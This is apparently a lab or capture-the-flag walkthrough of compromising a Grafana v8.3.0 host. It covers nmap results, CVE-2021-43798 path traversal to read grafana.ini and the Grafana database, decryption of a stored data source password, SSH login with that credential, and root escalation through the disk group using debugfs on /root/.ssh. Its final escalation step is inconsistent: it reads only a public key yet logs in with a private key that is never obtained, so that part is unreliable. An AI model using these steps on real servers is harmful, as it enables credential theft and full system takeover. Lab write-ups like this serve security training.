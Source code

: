 # IP : 192.168.234.181

## OS/TECHNO
- Ubuntu, PHP stack in front of Grafana v8.3.0 (914fcedb72) and Prometheus

## USER
- `sysadmin : SuperSecureP@ssw0rd`

## PASSWORD
- (Recovered from Grafana data source decryption — see Exploitation)

## SERVICE
- **80/HTTP** → (front for apps; not used directly)
- **3000/HTTP** → **Grafana v8.3.0**
- **9090/HTTP** → **Prometheus**
- **22/SSH**

## NMAP
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.4
3000/tcp open  http    Grafana http
|_http-trane-info: Problem with XML parsing of /evox/about
9090/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Exploitation
### Grafana **directory traversal** (CVE-2021-43798)
- Grafana v8.3.0 is vulnerable to plugin path traversal, allowing read access to local files.
- Use a vulnerable plugin path, then traverse to read:
  - `/etc/grafana/grafana.ini` → obtain **[security] secret_key** (often default `SW2YcwTIb9zpOOhoPsMm` if unset).
  - `/var/lib/grafana/grafana.db` → SQLite DB with users and data sources.

### User table (for reference)
From the `user` table (columns include `login,email,password,salt,...`) you’ll see an **old salted SHA-256** hash for `admin`:
- `login: admin`
- `email: admin@localhost`
- `password (sha256)`: `63f57627...bd65aa80` (64 hex chars)
- `salt`: `Vq2cDMrPtzt192oddkH`

> Cracking is optional; instead, decrypt a data source secret to get a live credential.

### Decrypt **data source** secret (AES‑256‑CFB)
- Read `data_source.secure_json_data` / `basic_auth_password` (base64) from the DB.
- With the **secret_key** from `grafana.ini`, decrypt the base64 using a public tool:
  - Example tool: `Sic4rio/Grafana-Decryptor-for-CVE-2021-43798`
- Result recovered in this case:
  - `grafanaIni_secretKey = SW2YcwTIb9zpOOhoPsMm`
  - `DataSourcePassword (base64) = anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==`
  - **Plaintext = `SuperSecureP@ssw0rd`**

###  SSH
- Creds: **`sysadmin : SuperSecureP@ssw0rd`**
- Connect:
  ```bash
  ssh sysadmin@192.168.234.181
  ```
- Shell:
  ```
  uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin),6(disk)
  ```

---

## Privilege Escalation
`sysadmin` is in group **disk** → raw access to block devices (read/write). This permits editing files on `/` via the underlying device.

### Option A — Add your SSH key to root (clean & fast)
1) Identify root FS device:
```bash
lsblk
# root mounted on /dev/sda2  
```
2) read public key using `debugfs`:
```bash

debugfs -R 'cat /root/.ssh/id_rsa.pub'  /dev/sda2
```

3) Log in as root:
```bash
ssh -i key root@192.168.234.181
```
